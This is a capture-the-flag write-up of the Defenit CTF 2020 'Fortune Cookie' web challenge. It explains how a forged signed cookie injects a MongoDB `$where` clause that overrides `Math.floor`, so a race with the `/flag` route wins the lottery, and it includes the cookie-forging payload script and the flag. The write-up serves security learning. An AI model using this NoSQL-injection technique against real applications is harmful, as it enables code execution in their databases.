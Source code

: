 # Fortune Cookie
*Defenit CTF 2020 - Web 507<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Here's a test of luck!
What's your fortune today?

## Look up

```javascript
app.get('/flag', (req, res) => {

    let { favoriteNumber } = req.query;
    favoriteNumber = ~~favoriteNumber;

    if (!favoriteNumber) {
        res.send('Please Input your <a href="?favoriteNumber=1337">favorite number</a> ?삃');
    } else {

        const client = new MongoClient(MONGO_URL, { useNewUrlParser: true });

        client.connect(function (err) {

            if (err) throw err;

            const db = client.db('fortuneCookie');
            const collection = db.collection('posts');

            collection.findOne({ $where: `Math.floor(Math.random() * 0xdeaaaadbeef) === ${favoriteNumber}` })
                .then(result => {
                    if (favoriteNumber > 0x1337 && result) res.end(FLAG);
                    else res.end('Number not matches. Next chance, please!')
                });

            client.close();

        });
    }
})
```

To get flag, we have to pass lottery based on Math.floor. If I have a huge luck, I could pass at once, but I'm not.

Since we know the secret value for signing cookie, we can make every structure in `req.signedCookies`.

```javascript
app.get('/posts', (req, res) => {

    let client = new MongoClient(MONGO_URL, { useNewUrlParser: true });
    let author = req.signedCookies.user;

    if (typeof author === 'string') {
        author = { author };
    }

    client.connect(function (err) {

        if (err) throw err;

        const db = client.db('fortuneCookie');
        const collection = db.collection('posts');

        collection
            .find(author)
            .toArray()
            .then((posts) => {
                res.render('posts', { posts })
            }
            );

        client.close();

    });

});
```

One more intersting point is `req.signedCookies.user` is given as object in `collection.find()`. When we give `$where` key for `user`, then javascript code will be evaluated.


## Race!

After `/posts` has a vulnerability, further steps are easy. Build a javascript code that overrided `Math.floor`, and make a race condition. It's all

## Exploitation

1. Make cookie that includes a javascript code overwrites `Math.floor` in `$where`
2. Pray for race condition


## Payload

To make cookie,
```javascript
const express = require("express");
const cookieParser = require("cookie-parser");

const app = express();

app.use(cookieParser('🐈' + '🐇'));
app.use(express.urlencoded());

app.get('/test', (req, res) => {
        res.cookie('user', {author: 'maratang', $where: 'Math.floor = function(x) { return 5000; }; return 1 == 2;'}, {signed: true});
        res.send('');
});
```



**`Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}`**
